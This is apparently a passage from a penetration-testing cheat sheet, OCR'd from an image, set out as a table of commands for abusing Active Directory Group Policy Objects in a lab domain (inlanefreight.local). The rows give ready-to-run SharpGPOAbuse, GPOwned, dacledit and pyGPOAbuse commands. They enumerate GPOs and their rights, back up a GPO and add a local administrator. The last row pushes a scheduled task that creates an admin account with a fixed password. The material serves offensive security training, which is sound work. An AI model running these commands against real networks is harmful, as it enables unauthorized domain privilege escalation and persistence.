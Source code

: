 | `SharpGPOAbuse.exe --AddLocalAdmin --UserAccount <NAME> --GPOName "Default Security Policy - WKS"`                                                                                                                                                                                                            | Abusing GPOs rights with SharpGPOAbuse            |
| `proxychains4 -q python3 GPOwned.py -u <NAME> -p <PASSWORD> -d inlanefreight.local -dc-ip 172.16.92.10 -gpcmachine -listgpo`                                                                                                                                                                                  | List GPOs with GPOwned                            |
| `proxychains4 -q python3 GPOwned.py -u <NAME> -p <PASSWORD> -d inlanefreight.local -dc-ip 172.16.92.10 -gpcmachine -listgplink`                                                                                                                                                                               | List GPO Links with GPOwned                       |
| `proxychains4 -q python3 examples/dacledit.py inlanefreight.local/<NAME>:<PASSWORD> -target-dn "CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=inlanefreight,DC=local" -dc-ip 172.16.92.10`                                                                                               | Query GPO rights with DACLEdit                    |
| `proxychains4 -q python3 GPOwned.py -u <NAME> -p <PASSWORD> -d inlanefreight.local -dc-ip 172.16.92.10 -gpcmachine -backup backupgpo -name "{31B2F340-016D-11D2-945F-00C04FB984F9}"`                                                                                                                          | Backup GPO with GPOwned                           |
| `proxychains4 -q python3 pygpoabuse.py inlanefreight.local/<NAME>:<PASSWORD> -gpo-id EF1EBF2A-08F2-48E0-9D2E-67D9F2CE875D -command "net user plaintext Password1234 /add && net localgroup Administrators plaintext /add" -taskname "PT_LocalAdmin" -description "this is a GPO test" -dc-ip 172.16.92.10 -v` | Abusing GPOs with pyGPOAbuse                      |
